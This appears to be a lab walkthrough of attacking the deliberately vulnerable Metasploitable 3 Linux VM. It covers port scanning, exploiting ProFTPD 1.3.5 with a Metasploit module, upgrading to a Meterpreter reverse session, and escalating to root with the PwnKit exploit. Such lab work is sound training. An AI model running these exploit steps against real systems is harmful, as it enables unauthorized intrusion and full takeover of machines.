 ```yaml
---
description: >-
  This page is showing different attacks made on the metasploit 3 linux lab,
  showing how to exploit different vulnerable service on the machine
---
```


# Linux

**Rustscan**

```shell
rustscan -a 192.168.43.111 -- -sV -oN meta3_nmap
```

<figure><img src="../.gitbook/assets/scan1.png" alt=""><figcaption></figcaption></figure>

```
Open 192.168.43.111:21
Open 192.168.43.111:22
Open 192.168.43.111:445
Open 192.168.43.111:80
Open 192.168.43.111:631
Open 192.168.43.111:3306
Open 192.168.43.111:3500
Open 192.168.43.111:6697
Open 192.168.43.111:8080

PORT     STATE SERVICE     REASON  VERSION
21/tcp   open  ftp         syn-ack ProFTPD 1.3.5
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open  ipp         syn-ack CUPS 1.7
3306/tcp open  mysql       syn-ack MySQL (unauthorized)
3500/tcp open  http        syn-ack WEBrick httpd 1.3.1 (Ruby 2.3.8 (2018-10-18))
6697/tcp open  irc         syn-ack UnrealIRCd
8080/tcp open  http        syn-ack Jetty 8.1.7.v20120910
Service Info: Host: irc.TestIRC.net; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP ENUMERATION (port 21)

We see that FTP has a version of <mark style="background-color:purple;">ProFTPD 1.3.5</mark> , when we search for exploit vulnerability we seen some good news.

```
searchsploit ProFTPD 1.3.5
```

<figure><img src="../.gitbook/assets/ftp1.png" alt=""><figcaption></figcaption></figure>

Now we see we have some code being used with metasploit, lets start the service see if we might get access to the server.

```shell
msfconsole
```

And if the service is opened search for the same FTP version you searched earlier and you will see we some exploit.&#x20;

<figure><img src="../.gitbook/assets/msf1.png" alt=""><figcaption></figcaption></figure>

```shell
use exploit/unix/ftp/proftpd_modcpoy_exec
```

```shell
1. setg rhosts 192.168.43.111
2. set sitepath /var/www/html
3. run
```

<figure><img src="../.gitbook/assets/ftp2.png" alt=""><figcaption></figcaption></figure>

Even though have a Exploit aborted due to failure message go no check you sessions, you have a session started.&#x20;

<figure><img src="../.gitbook/assets/ftp3.png" alt=""><figcaption></figcaption></figure>

Now if you want to get your shell you type ==sessions 1== but if you want to use a meterpreter session you have to upgrade your session

```shell
sessions -u 1
```

Anew meterpreter session will be started and you re set to do what ever you want on the machine&#x20;

<figure><img src="../.gitbook/assets/ftp4.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/ftp5.png" alt=""><figcaption></figcaption></figure>

You type <mark style="background-color:blue;">shell</mark> in your meterpreter to get the shell of the machine but first you need a interactive shell ,

```shell
/bin/bash -i
```

<figure><img src="../.gitbook/assets/shel1.png" alt=""><figcaption></figcaption></figure>

#### #Privilege escalation

After having upgraded our shell to meterpreter we need to find the privilege escalation to this machine. First am going to scan the machine and see if we might have any kernel exploits.

```shell
1. search suggestor
2. use post/multi/recon/local_exploit_suggester
3. set session 2
4. run
```

<figure><img src="../.gitbook/assets/suggester.png" alt=""><figcaption></figcaption></figure>

After our scripts runs, we seen that this machine is vulnerable to 4 attacks. and if one is successful we should get access to a root user.

```shell
1. use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
2. setg session 2
3. setg lhost 192.168.43.103
4. setg lport 3333
5. exploit
```

Now we set our session to the second session upgraded to meterpreter which is id 2 and then we our lport(attack's ip address) later we only set a new port, this should not be in use by any application and then run your exploit. A meterpreter session is pwned and by changing to the interactive shell shell we seen we an root user and this can also be confirmed by running ID command which also show you the same.&#x20;

<figure><img src="../.gitbook/assets/root (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/all.png" alt=""><figcaption></figcaption></figure>

